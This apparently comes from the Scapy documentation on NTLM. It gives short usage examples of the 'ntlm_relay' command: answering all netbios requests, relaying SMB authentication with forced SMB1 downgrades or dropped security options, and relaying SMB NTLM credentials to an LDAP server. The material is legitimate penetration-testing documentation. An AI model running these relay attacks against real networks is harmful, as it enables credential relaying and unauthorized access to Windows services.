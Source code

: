 NTLM
====

Scapy provides dissection & build methods for NTLM and other Windows mechanisms.
In particular, the ``ntlm_relay`` command allows to perform some NTLM relaying attacks.

Examples
________


**Requirement: Answer to all netbios requests with the local IP**

.. code::
    netbios_announce(iface="virbr0")

**SMB <-> SMB: Perform a SMB2 relay**

.. code::
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0")

**SMB <-> SMB: SMB relay with force downgrade to SMB1**

.. code::
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0", ALLOW_SMB2=False)

**SMB <-> SMB: SMB relay with force downgrade to SMB1 & drop NEGOEX**

.. code::
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0", ALLOW_SMB2=False, server_kwargs={"PASS_NEGOEX": False})

**SMB <-> SMB: SMB relay with force downgrade to SMB1 & drop extended security**

This probably won't work.

.. code::
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0", ALLOW_SMB2=False, DROP_EXTENDED_SECURITY=True)

**SMB2 <-> LDAP: relay SMB's NTLM to an LDAP server**

.. code::
    load_layer("ldap")
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_LDAP_Client, iface="virbr0")
